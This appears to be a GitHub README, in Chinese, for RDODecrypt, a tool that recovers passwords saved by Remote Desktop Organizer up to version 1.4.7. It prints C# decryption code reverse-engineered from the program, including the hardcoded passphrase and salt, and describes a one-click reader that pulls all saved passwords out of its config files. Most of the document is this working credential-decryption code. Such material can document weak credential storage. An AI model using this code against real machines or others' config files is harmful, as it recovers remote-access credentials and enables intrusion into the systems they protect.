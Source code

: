 # RDODecrypt

Remote Desktop Organizer (RDO) <= 1.4.7 密码解密

逆向程序把关键解密方法拿出来用就好了，我顺便写了个反序列化配置文件一键读取密码，时间有限随便写写。

关键解密方法：
```csharp
		public static byte[] smethod_4(byte[] byte_0, byte[] byte_1, byte[] byte_2)
        {
            MemoryStream memoryStream = new MemoryStream();
            Rijndael rijndael = Rijndael.Create();
            rijndael.Key = byte_1;
            rijndael.IV = byte_2;
            CryptoStream cryptoStream = new CryptoStream(memoryStream, rijndael.CreateDecryptor(), CryptoStreamMode.Write);
            cryptoStream.Write(byte_0, 0, byte_0.Length);
            cryptoStream.Close();
            return memoryStream.ToArray();
        }

        public static string smethod_5(string string_0)
        {
            string strPassword = "swevA2t62We?5Cr+he4Tac?_E!redafa?re5+2huv*$rU9eS8Ub4?W!!R+s7uthU";
            byte[] array = new byte[string_0.Length / 2];
            for (int i = 0; i < string_0.Length / 2; i++)
            {
                int num = Convert.ToInt32(string_0.Substring(i * 2, 2), 16);
                array[i] = (byte)num;
            }
            PasswordDeriveBytes passwordDeriveBytes = new PasswordDeriveBytes(strPassword, new byte[]
            {
                73,
                118,
                97,
                110,
                32,
                77,
                101,
                100,
                118,
                101,
                100,
                101,
                118
            });
            byte[] bytes = smethod_4(array, passwordDeriveBytes.GetBytes(32), passwordDeriveBytes.GetBytes(16));
            return Encoding.Unicode.GetString(bytes);
        }
```

读取配置文件默认只读取到二层文件夹，有需求的可以改改代码。

![圖片](https://user-images.githubusercontent.com/40329078/79737192-88cb1900-832d-11ea-80e9-724dc55ed03e.png)
